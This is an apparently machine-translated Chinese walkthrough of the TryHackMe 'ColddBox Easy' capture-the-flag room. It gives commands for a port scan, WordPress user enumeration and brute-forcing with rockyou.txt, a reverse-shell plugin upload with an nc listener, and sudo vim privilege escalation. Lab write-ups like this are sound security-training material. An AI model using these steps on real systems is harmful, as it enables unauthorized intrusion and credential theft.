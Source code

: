 # ColddBox 简易试用版

> 原文：<https://infosecwriteups.com/colddbox-easy-tryhackme-writeup-c2924bc634ce?source=collection_archive---------5----------------------->

**作者 Shamsher khan 这是一篇关于 try hackme room“cold box Easy”的文章**

![](img/b576bf361e9dc15f8fbd04ed7bff315c.png)

【https://tryhackme.com/room/colddboxeasy 号

**难度**:简单
**瞄准**:黑掉这台机器，获得*用户*和*根*标志。

**THM:**https://www.tryhackme.com/room/colddboxeasy

**VulnHub:**https://www.vulnhub.com/entry/colddbox-easy,586/

具有多种升级权限方式的简易关卡机。

# 情报收集

**目标:**我的情况是 10.10.196.79

![](img/8221705f91f8fbc4fea151991fb93dd2.png)

然后进一步扫描，在发现的端口上运行默认脚本和版本检测:

```
nmap -sC -sV -vvv -p 80,4512 10.10.196.79
```

![](img/a11bbd141f51f6653312eec6a49a836a.png)

由此我们可以看到以下端口和服务:

*   端口 80/TCP—HTTP—(Apache httpd 2 . 4 . 18—运行 WordPress 博客)
*   端口 4512/tcp — SSH — (OpenSSH 7.2p2)

# 列举

在浏览器中查看网页可以确认 WordPress 正在使用中。

![](img/87bcbb2634ddc630ec276041a65ab6fa.png)

wpscan 可用于为用户、插件、主题等列举 WordPress:

```
wpscan --url http://10.10.196.79 -e
```

正在使用的主题是 ***第二十五个*** :

![](img/4447265ce50ca2e8ad062fb141a1cb00.png)

确定了 3 个有效用户:

![](img/3a6715b71eb2d6505c49c27aa8b1b51c.png)

我们可以尝试使用 *rockyou.txt* 单词表来破解这些用户的密码:

```
wpscan --url [http://](http://10.10.196.79)10.10.196.79[/](http://10.10.196.79) -U philip,c0ldd,hugo -P /usr/share/wordlists/rockyou.txt
```

![](img/e98ddc7900aea699c9b7ae514f979214.png)

成功！我们已经找到了 ***c0ldd* 的密码。**

# 获得访问权限

我们现在可以用上面的凭证登录 WordPress。

```
[http://10.10.196.79/wp-login.php](http://10.10.196.79/wp-login.php)
```

![](img/840f5d77157c7cfb18f039e09a8cc073.png)![](img/3acf6b37b91fd534cab9b03724752068.png)

为反向外壳创建一个插件

![](img/835e7fb2ad155e98371d4544ddb25d5a.png)

压缩成 zip 文件

![](img/70326fd2887f37129190dd515f5316e7.png)

一旦我们把它压缩好，我们就转移到 WordPress 用户界面。在插件下，我们选择添加新插件:

![](img/9d3cc24c5a2bca575e0d42982e325461.png)

选择上传插件:

![](img/3c2d6b12f7cb8b0bcdfa9a2e1ccebb0b.png)

我们浏览新创建的插件:

![](img/20be1448dac0728d86c4dc9ad846ca15.png)

现在启动 netcat shell

```
nc -lvp 4444
```

![](img/002e7e2d274ecefd69132e8678a79167.png)

点击激活获取外壳

![](img/749a5dc16ce5250ce99b478e633c0d17.png)

嘣！我们有贝壳

然后可以从*config.php*文件中获得数据库用户和密码:

![](img/af24677c6eec1a63bcd75fad0a9f07ff.png)

我们可以通过运行以下命令将其升级为完全交互式的 shell:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Zstty raw -echo; fg   (from local terminal)
<enter>
```

![](img/d1919637a6f11add85cdfd260a41dfe2.png)

使用凭据登录

![](img/6179c726ac1ffec7e4a260a77efd99c7.png)

可以在主目录中找到 *user.txt* 标志:

![](img/007e0323d32a198f13bbe599c1ee3b7e.png)

该标志以 Base64 格式编码，但在提交给 THM 时不需要解码。

接下来，我们可以检查用户 *c0ldd* 是否拥有任何 *sudo* 权限:

# 权限提升

![](img/9098f176bcdca7848f143398427f74e6.png)

*c0ldd* 拥有 **vim、chmod** 和 **ftp 的 sudo 权限。**

这里有多种选择…

**通过/usr/bin/vim 进行权限提升:**

[https://gtfobins.github.io/gtfobins/vim/#sudo](https://gtfobins.github.io/gtfobins/vim/#sudo)

```
sudo vim -c ':!/bin/sh'
<enter>
```

![](img/83dd53e777fbcb7f9bff0a0a4c1ad43b.png)

**通过/usr/bin/chmod 进行权限提升:**

【https://gtfobins.github.io/gtfobins/chmod/#sudo 

![](img/30dbfdaff11d578480569ca498cd3e17.png)

# 文件传送协议

 [## ftp | GTFOBins

### 它可以通过生成交互式系统外壳来突破受限环境。它可以渗出…

gtfobins.github.io](https://gtfobins.github.io/gtfobins/ftp/#sudo) ![](img/26910d0ad7e586a3cf87a9c40a761e01.png)

你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)

![](img/09e5bbba06c7688a702aeec8570d243c.png)

更多演练敬请关注……
出发前…

访问我的其他演练:-

感谢您花时间阅读我的演练。如果您觉得它有帮助，请点击👏按钮👏(高达 40 倍)并分享
它来帮助其他有类似兴趣的人！+随时欢迎反馈！